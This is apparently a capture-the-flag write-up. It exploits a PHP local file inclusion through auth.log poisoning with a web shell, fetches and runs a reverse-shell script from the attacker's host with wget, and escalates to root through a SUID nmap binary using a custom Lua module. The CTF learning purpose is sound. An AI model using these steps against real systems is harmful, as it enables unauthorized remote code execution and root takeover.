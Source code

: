 # Writeup
## Foothold
The index.php has a Local-File-Inclusions
```php
if( isset($_GET['adminDebug']))
{   
    include("admin/".$_GET['adminDebug']);
}
```

To get RCE, we need a file that we can write to. As this is a Docker container, the access- and errorlog files of httpd and nginx are commonly disabled, so we have to look for other files. One trick is the `/var/log/auth.log` file, which we can write if SSH is enabled. On this machine it is, so we can write to the file by doing `ssh '<?= system($_GET['cmd']); =?>'@77.35.101.128` and then go to http://77.35.101.128:8000/?adminDebug=../../../../var/log/auth.log&cmd=whoami

## PrivEsc
To get a propper shell, I created a python file with a revshell payload, hosted it using `python3 -m http.server 8080` and download it through the php shell with `wget http://myip:8000/rev.py` and execute it with `python3 rev.py`

After enumerating (manually or with LinPeas), we find that nmap is SUID. After reading a few blog posts, we find that `--interactive` doesn't work in newer versions and `os.execute` drops SUID in the Lua code which is what nmap runs scripts as. [This blog](https://www.elttam.com/blog/lua-suid-shells/) mentions a trick to bypass this, by creating a custom lua module that runs sh without dropping permissions and importing it to a nmap script.

The module is written in C (the example from the blog is [here](./sh.c)) and compiled using the following command `gcc -I/usr/include/lua5.3 -o sh.so -shared -fpic sh.c` which requires the `liblua5.3-dev` apt package to work. The sh.so file is then moved to the target machine, along with the [nmap script](./sh.nse) from the blog. Finally by running `nmap --script=./sh.nse` on the target, we get a root shell.